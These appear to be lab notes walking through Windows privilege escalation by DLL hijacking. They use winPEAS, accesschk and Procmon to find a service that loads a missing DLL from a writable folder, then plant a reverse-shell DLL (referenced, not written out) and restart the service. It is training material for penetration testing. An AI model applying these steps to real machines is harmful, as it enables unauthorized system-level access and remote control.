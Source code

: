    1. Use winPEAS to enumerate non-Windows services:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```


2. Note that the C:\Temp directory is writable and in the PATH. Start by enumerating which of these services our user has stop and start access to:

```command prompt - windows
.\accesschk64.exe /accepteula -uvqc user dllsvc
```

3. The “dllsvc” service is vulnerable to DLL Hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:

```command prompt - windows
sc qc dllsvc
```

4. Run Procmon64.exe with administrator privileges. Press Ctrl+L to open the Filter menu.

5. Add a new filter on the Process Name matching dllhijackservice.exe.

6. On the main screen, deselect registry activity and network activity.

7. Start the service:

```command prompt - windows
net start dllsvc
```

8. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file.

9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writable by our user.

10. On Kali, generate a reverse shell DLL named hijackme.dll:

[[1._Reverse Shells (WIN)#DLL]]

11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit:

```command prompt - windows
net stop dllsvc
```

```command prompt - windows
net start dllsvc
```

![[Pasted image 20211229132448.png]]

```command prompt - windows
.\accesschk.exe /accepteula -uvqc Aaron WiseBootAssistant
```
